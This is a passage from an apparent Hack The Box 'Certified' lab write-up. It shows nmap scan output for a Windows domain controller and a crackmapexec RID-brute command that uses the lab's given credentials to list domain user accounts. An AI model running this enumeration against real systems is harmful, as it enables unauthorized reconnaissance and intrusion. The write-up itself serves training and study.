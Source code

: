 ~~~ shell
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2025-02-11T19:13:06+00:00; +6h43m10s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49669/tcp open  msrpc         Microsoft Windows RPC
49675/tcp open  msrpc         Microsoft Windows RPC
49676/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49685/tcp open  msrpc         Microsoft Windows RPC
49715/tcp open  msrpc         Microsoft Windows RPC
49739/tcp open  msrpc         Microsoft Windows RPC
62908/tcp open  msrpc         Microsoft Windows RPC
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
|_clock-skew: mean: 6h43m09s, deviation: 0s, median: 6h43m09s
| smb2-time: 
|   date: 2025-02-11T19:12:29
|_  start_date: N/A

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 273.30 seconds
~~~

## Active Directory Exploitation

List users in the domain using the provided credential above.

~~~ shell 
┌──(trit㉿chimp)-[~/HackTheBox/Certified]
└─$ crackmapexec smb 10.10.11.41 -u "judith.mader" -p "judith09" --rid-brute | grep SidTypeUser
SMB                      10.10.11.41     445    DC01             500: CERTIFIED\Administrator (SidTypeUser)
SMB                      10.10.11.41     445    DC01             501: CERTIFIED\Guest (SidTypeUser)
SMB                      10.10.11.41     445    DC01             502: CERTIFIED\krbtgt (SidTypeUser)
SMB                      10.10.11.41     445    DC01             1000: CERTIFIED\DC01$ (SidTypeUser)
SMB                      10.10.11.41     445    DC01             1103: CERTIFIED\judith.mader (SidTypeUser)
SMB                      10.10.11.41     445    DC01             1105: CERTIFIED\management_svc (SidTypeUser)
SMB                      10.10.11.41     445    DC01             1106: CERTIFIED\ca_operator (SidTypeUser)
SMB                      10.10.11.41     445    DC01             1601: CERTIFIED\alexander.huges (SidTypeUser)
SMB                      10.10.11.41     445    DC01             1602: CERTIFIED\harry.wilson (SidTypeUser)
SMB                      10.10.11.41     445    DC01             1603: CERTIFIED\gregory.cameron (SidTypeUser)
~~~
